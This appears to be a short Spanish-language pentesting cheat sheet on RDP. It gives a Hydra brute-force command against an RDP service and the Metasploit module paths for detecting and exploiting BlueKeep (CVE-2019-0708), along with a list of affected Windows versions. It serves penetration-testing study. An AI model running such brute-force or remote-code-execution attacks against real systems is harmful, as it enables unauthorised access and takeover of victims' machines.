 # RDP

## Fuerza Bruta

### Hydra

Para hacer fuerza bruta usamos hydra de la siguiente forma:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.1.1 -s 3333
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## BlueKeep (CVE-2019-0708)

{% hint style="info" %}
BlueKeep (CVE-2019-0708) es una vulnerabilidad crítica en el servicio de Remote Desktop Protocol (RDP) de Microsoft Windows. Esta vulnerabilidad permite la ejecución remota de código en sistemas vulnerables, lo que significa que un atacante puede tomar el control de un equipo afectado sin necesidad de credenciales de usuario

Algunos S.O. afectados:

* Windows XP
* Windows Vista
* Windows 7
* Windows Server 2003
* Windows Server 2008 & R2
{% endhint %}

### Detección

Podemos usar el siguiente modulo de metasploit:

```bash
/auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Explotación

Podemos usar el siguiente modulo de metasploit:

```bash
/exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>
